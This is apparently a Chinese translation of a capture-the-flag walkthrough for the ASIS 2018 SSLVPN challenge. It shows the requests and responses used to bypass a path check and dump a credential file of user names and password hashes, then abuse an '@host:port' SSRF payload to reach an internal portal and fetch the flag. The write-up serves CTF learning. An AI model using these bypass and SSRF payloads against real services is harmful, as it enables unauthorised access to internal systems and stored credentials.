

# NodeJS SSRF 设计缺陷-2018 年 ASIS 决赛 SSLVPN 挑战演练

> 原文：<https://infosecwriteups.com/nodejs-ssrf-by-design-flaw-asis-final-2018-sslvpn-challenge-walkthrough-5ec4e87bcced?source=collection_archive---------3----------------------->

参与者会得到一个网址，打开这个网址就会进入一个登录页面。该挑战的主要思想是利用由设计缺陷引起的 SSRF 漏洞。


执行登录请求导致以下响应:

```
root@cloud:~# curl "[http://162.243.23.15:8000/login](http://162.243.23.15:8000/login)" --data "username=test&password=test" -v
*   Trying 162.243.23.15...
* Connected to 162.243.23.15 (162.243.23.15) port 8000 (#0)
> POST /login HTTP/1.1
> Host: 162.243.23.15:8000
> User-Agent: curl/7.47.0
> Accept: */*
> Content-Length: 27
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 27 out of 27 bytes
< HTTP/1.1 302 Found
< X-Powered-By: Express
< X-Content-Type-Options: nosniff
< X-SSLVPN-Request-Id: 9B60:6E97:25ADB08:45E4D17:5AE34BA4
< X-Database-Request-Check: **db.json**
< X-Frame-Options: deny
< Location: /login
< Vary: Accept
< Content-Type: text/plain; charset=utf-8
< Content-Length: 28
< set-cookie: ssl-vpn.sid=s%3AGCY1h6fKsL-So1VdwnrBprvE6yMJ1Dnu.Fl4jN5funPmlwJissxmxsg0ueNXqxgFBgapV5o5i2Og; Path=/; HttpOnly
< Date: Mon, 26 Nov 2018 09:11:53 GMT
< Connection: keep-alive
<
* Connection #0 to host 162.243.23.15 left intact
Found. Redirecting to /login
```

正如我们所看到的，X-Database-Request-Check 显示了一个试图下载数据库的文件:

```
root@cloud:~# curl "[http://162.243.23.15:8000/db.json](http://162.243.23.15:8000/db.json)" -v
*   Trying 162.243.23.15...
* Connected to 162.243.23.15 (162.243.23.15) port 8000 (#0)
> GET /db.json HTTP/1.1
> Host: 162.243.23.15:8000
> User-Agent: curl/7.47.0
> Accept: */*
>
< HTTP/1.1 200 OK
< X-Powered-By: Express
< set-cookie: ssl-vpn.sid=s%3ApGmZoWtgH-hrMlQ1erZMqalqkz_kfYWn.oucKCZhajGFT2jumpOgKBpN%2BImIoN5nkOz9nFXnb7Xs; Path=/; HttpOnly
< Date: Mon, 26 Nov 2018 09:24:48 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
* Connection #0 to host 162.243.23.15 left intact
**Unauthorized: endpint URI cannot be /db.json**
```

考虑到错误和应用程序由 NodeJS 部署的事实，可能会有类似的情况:

```
if (request.uri === '**/db.json**') {
        result.end('Unauthorized: endpint URI cannot be /db.json')
    } else {
```

因此:

```
root@cloud:~# curl "[**http://162.243.23.15:8000/db.json**](http://162.243.23.15:8000/db.json)**?something**" -v
*   Trying 162.243.23.15...
* Connected to 162.243.23.15 (162.243.23.15) port 8000 (#0)
> GET /db.json? HTTP/1.1
> Host: 162.243.23.15:8000
> User-Agent: curl/7.47.0
> Accept: */*
>
< HTTP/1.1 200 OK
< X-Powered-By: Express
< set-cookie: ssl-vpn.sid=s%3A5tgeVNTR7jrpbYY6MqQJ0hYgWkUw4tbq.OBYPK5%2ByT2svgsBK3UqWAQzCSiO%2FzKFwPw2tFKcGDVw; Path=/; HttpOnly
< Date: Mon, 26 Nov 2018 09:28:46 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
{
  "credentials": [{
    "id": "1",
    "display_name": "admin",
    "user": "**administrator**",
    "pass": "**ce5f2ce89fa4b39778404b3a7a9dc13b**"
  }, {
    "id": "2",
    "display_name": "user",
    "user": "**user1**",
    "pass": "**825a3895b83513dce6997ef03f1597fb**"
  },{
    "id": "3",
    "display_name": "David",
    "user": "**david**",
    "pass": "**195f19b835efe9f0b7b4e276ef1a8515**"
  }]
* Connection #0 to host 162.243.23.15 left intact
}
```

三位用户透露，只有大卫的密码在谷歌中被索引:`p@ss`。登录成功，有两个菜单，一个是工作菜单`echo service`。请求:

```
POST /echo_service/**test** HTTP/1.1
Host: 162.243.23.15:8000
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [http://162.243.23.15:8000/echo_service](http://162.243.23.15:8000/echo_service)
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 35
DNT: 1
Connection: close
Cookie: ssl-vpn.sid=s%3AV36bk4zshY4AqqeaSBYWP8xPDavprlIO.2PokuOB8TKDTxXXKrMuXW5Cfbp%2Bp0k7iLPDInYkwnygpath=**%2Fecho%2F**&server=**echo2.server**HTTP/1.1 200 OK
X-Powered-By: Express
Date: Sun, 25 Nov 2018 21:14:50 GMT
Connection: close
Content-Length: 2**test**
```

请求中的变量以粗体显示。在`server`上模糊导致它不能改变，唯一可以接受的值是`echo2.server`。回声服务是在[http://162.243.23.15:8001](http://162.243.23.15:8001.)服务。我们根据以下要求做了一些模糊处理:

```
POST /echo_service/**[FUZZ]** HTTP/1.1
Host: 162.243.23.15:8000
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [http://162.243.23.15:8000/echo_service](http://162.243.23.15:8000/echo_service)
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 35
DNT: 1
Connection: close
Cookie: ssl-vpn.sid=s%3AV36bk4zshY4AqqeaSBYWP8xPDavprlIO.2PokuOB8TKDTxXXKrMuXW5Cfbp%2Bp0k7iLPDInYkwnygpath=&server=**echo2.server**HTTP/1.1 200 OK
X-Powered-By: Express
Date: Sun, 25 Nov 2018 21:14:50 GMT
Connection: close
Content-Length: 2**test**
```

结果是:

1.  像 123 这样的数字:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 2
ETag: W/"2-vyGp6PvFo4RvsFtPoIWeCReyIC8"
Date: Mon, 26 Nov 2018 12:45:28 GMT
Connection: close**{}**
```

2.字符和一些符号:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 98
ETag: W/"62-nYT+i7lNNe2ZqULvWWulYdzrkc0"
Date: Mon, 26 Nov 2018 12:46:46 GMT
Connection: close**{"errno":"ECONNREFUSED","code":"ECONNREFUSED","syscall":"connect","address":"127.0.0.1","port":80}**
```

3.包含`at-sign`符号的有效载荷(一个好的列表可以在[这里](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF%20injection)找到):

```
POST /echo_service/**@127.2.2.2:80** HTTP/1.1
Host: 162.243.23.15:8000
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [http://162.243.23.15:8000/echo_service](http://162.243.23.15:8000/echo_service)
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
DNT: 1
Connection: close
Cookie: ssl-vpn.sid=s%3AVTX_48iVuQZIAcc-NEd-B5atdaP46tDF.dGNqdNqW99wz1GO5lmn7wFgflCKpz8ApAfaFoP3A8jcpath=&server=echo2.serverHTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 98
ETag: W/"62-yz7b2xcC3rXy4a49tqedeg+viXk"
Date: Mon, 26 Nov 2018 12:52:05 GMT
Connection: close{"errno":"ECONNREFUSED","code":"ECONNREFUSED","syscall":"connect","address":"**127.2.2.2**","port":80}
```

等一下，主持人已经换了！因此，服务器端逻辑如下图所示



考虑以下 HTML 提示:

```
<!--p Warning: some menues may be filtered (not shown) due to your IP address.-->
```

除了我可以控制宿主之外:

```
http://162.243.23.15[The Input]
```

所以合适的有效载荷是@127.0.0.1:8000:

```
http://162.243.23.15@127.0.0.1:8000/
```

结果是:

```
<!DOCTYPE html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no"><meta name="description" content=""><meta name="author" content=""><title>BOOGY SSL-VPN Portal</title><link href="/stylesheets/style.css" rel="stylesheet"><script src="/js/jquery-3.3.1.min.js"></script><script src="/js/site.js"></script></head><body><div class="modal"></div><ul><li><a href="/">Home</a></li><li><a href="/login">Login</a></li><li><a href="**/get_flag**">Flag</a></li></ul><div class="wrapper"><h2>BOOGY SSL VPN Portal</h2><br><p>Welcome to VPN portal. The portal provides internal services through web.</p>
```

最终有效载荷:

```
POST /echo_service/**@127.2.2.2:8000%2fget_flag** HTTP/1.1
Host: 162.243.23.15:8000
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [http://162.243.23.15:8000/echo_service](http://162.243.23.15:8000/echo_service)
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
DNT: 1
Connection: close
Cookie: ssl-vpn.sid=s%3AVTX_48iVuQZIAcc-NEd-B5atdaP46tDF.dGNqdNqW99wz1GO5lmn7wFgflCKpz8ApAfaFoP3A8jcpath=&server=echo2.server
```

回应是:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Mon, 26 Nov 2018 12:58:33 GMT
Connection: close
Content-Length: 38ASIS{97016c66cd3bddc7624622336ffeeae8}
```